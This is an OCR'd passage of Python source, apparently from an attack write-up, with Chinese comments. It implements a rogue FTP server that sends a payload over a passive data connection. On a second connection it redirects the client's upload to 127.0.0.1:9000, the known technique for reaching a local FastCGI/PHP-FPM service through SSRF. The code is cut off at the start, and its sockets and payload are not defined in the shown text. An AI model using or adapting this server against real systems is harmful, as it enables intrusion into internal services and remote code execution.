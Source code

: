 ```python
sk2.bind((host, 1234))
sk2.listen()

# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```
